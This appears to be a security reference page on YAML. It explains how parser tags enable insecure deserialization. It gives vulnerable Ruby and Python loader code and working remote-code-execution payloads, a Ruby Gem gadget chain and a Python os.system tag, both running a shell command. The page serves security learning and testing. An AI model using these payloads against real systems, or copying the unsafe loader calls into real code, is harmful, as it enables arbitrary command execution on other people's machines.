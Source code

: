```yaml
---
description: Yet Another Markup Language
---
```


# YAML

## Description

First of all, this great article explains all sorts of tricks and weirdness in YAML:

{% embed url="https://ruudvanasseldonk.com/2023/01/11/the-yaml-document-from-hell" %}
Explanation and examples of many YAML tricks
{% endembed %}

## Insecure Deserialization

In YAML the `!` character can mean a **tag**, which allows you to execute a function in the host language with a parameter that comes right after (because why not). Many parsers implement this as it is required by the spec, but if attackers have control over the YAML file, even partially, they can use these tags to run arbitrary functions with arbitrary arguments.&#x20;

A common target for this is a function that executes shell commands, where you can gain Remote Code Execution. The following examples all execute the `id` command and allow you to execute any arbitrary commands:

### Ruby

#### Vulnerable Function

```ruby
require "yaml"

YAML.load(File.read("data.yml"))
```

#### Payload (>2.7, [source](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/))

{% code title="data.yml" %}
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "id"
         method_id: :resolve
```
{% endcode %}

### Python

#### Vulnerable Function

```python
from yaml import Loader, load

deserialized = load(open('data.yml'), Loader=Loader)
```

#### Payload

```yaml
!!python/object/apply:os.system
- "id"
```
